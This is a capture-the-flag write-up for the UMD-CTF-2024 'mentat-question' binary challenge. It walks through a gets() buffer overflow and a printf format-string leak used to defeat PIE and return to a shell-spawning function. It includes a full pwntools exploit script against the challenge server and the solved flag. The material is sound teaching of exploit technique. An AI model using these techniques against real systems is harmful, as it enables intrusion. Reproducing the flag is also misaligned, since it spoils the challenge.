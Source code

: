 ```yaml
---
layout: writeup
category: UMD-CTF-2024
chall_description:
points: 432
solves: 71
tags: UMD-CTF-2024 pwn pwn/buffer-overflow pwn/gets pwn/format-string pwn/ret2win pwn/PIE
date: 2024-4-28
comments: false
---
```


Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...  

`nc challs.umdctf.io 32300`  

[mentat-question.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question.c)  
[mentat-question](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question)  
[Dockerfile](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/Dockerfile)  

---

We're provided a C source file and an ELF binary. Here's the source:  

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}

```

The ELF binary is x86_64, and running checksec on it tells us it has the NX and PIE protections enabled. For those who are unaware, NX disallows execution of bytes on the stack (or in certain memory areas). PIE, meanwhile, randomizes the base address of the ELF. Essentially, instead of the base address being a constant 0x40000000 or whatever, which would allow us to always know the address of every function, it randomizes this base address, preventing the user from gaining knowledge of what the address of every function is. This makes it harder for the user to return to a specific memory address in an attack.  

Let's check out the C code now and see what vulnerabilities we can find.  

There don't appear to be any major vulnerabilities in the main function, so let's see what we can find in calculate(). First things first, we need to set num2 to be less than 1. For some reason, inputting num2 as 0 or -1 wasn't actually working for me locally, but through stress testing, I realized that simply sending 3 new lines actually allowed access into the if statement code block.  

Here, there are now two obvious vulnerabilities. Firstly, `gets(buf)` is called. gets() is a function that is well-known to allow unbounded input, so basically free buffer overflow. Secondly, `printf(buf)` is called. With printf(), whenever a program prints out a user-controlled variable, a format specifier must be used. Otherwise, it allows a malicious user to write their own format specifiers into the output variable, which can allow information to be gained about memory on the stack.  

However, there is one slight problem with entering any sort of input into buf. The line `strncmp(buf, "Yes", 3) == 0` attempts to ensure that the user input is set to "Yes". If this check fails, the program exits. Fortunately, however, the way this check is implemented makes it so that it only checks if the first 3 bytes of buf are equal to "Yes". Therefore, we can simply enter whatever payload we want after "Yes" and pass the check!  

Now we can develop a process to return to the win function, secret().  

Firstly, we need to determine the PIE offset. We need the PIE offset to calculate the address of the secret() function. We can do this by leaking the address of main() or some other function, since the offset between main() and secret() is known and constant, regardless of PIE.  

Once we determine the PIE offset, we can calculate the address of the secret() function, and then override RIP (the return address) on the stack to return to secret().  

Let's first deal with finding the offset. Well, we know calculate() is called from main(), so main's address has to be on the stack, wherever RIP is located, since the program will need to return to it later.  

So, we can first find the offset of the RIP with pwntools's cyclic() and cyclic_find() functions. Here's the script for that:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

p = process('./mentat-question')
gdb.attach(p)

# NOTE: logic starts here

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

send_payload(b'Yes' + cyclic(1024))
# after checking out in GDB, I found that RSP, when the program ran into SIGSEV, was set to "aaagaaah"  
ret = cyclic_find('aaagaaah')

p.interactive()
```

Note that you should be using the pwndbg extension for GDB. It helps a lot!  

Now that we have the offset of RIP, we can now use the format string vulnerability to essentially read the stack. I initially tried just sending a string of many "%p", but it actually ended up overriding RIP on the stack, which triggered a SIGSEV. So that didn't work.  

Instead, we can perform an arbitrary read, which will allow us to read the memory of a certain offset on the stack. Through a bit of testing, I was able to figure out that the offset we needed was equal to `ret - 2`:  

```py
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)
```

The way I confirmed was simply by running `print 'main'` in GDB every time after the Python script finished execution, which told me the address of main() for that current run. I kept on changing the +/- offset on ret until I got the address of main().  

Now that we have the address of main(), we can simply calculate the PIE offset and thus the address of secret() as follows:  

```py
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']
```

Finally, we can override RIP and return to secret to pop a shell!  

```py
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))
```

Now we can change the target to the remote service, run the script, do "cat flag.txt", and get the flag!  

Here's the full script:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./mentat-question')
# gdb.attach(p)

p = remote('challs.umdctf.io', 32300)

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

# NOTE: find return address
# send_payload(b'Yes' + cyclic(1024))

ret = cyclic_find('aaagaaah')

# NOTE: get main address
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)

# NOTE: calculate secret() address
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']

# NOTE: ret2win
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))

p.interactive()
```

And here's the flag!  

    UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}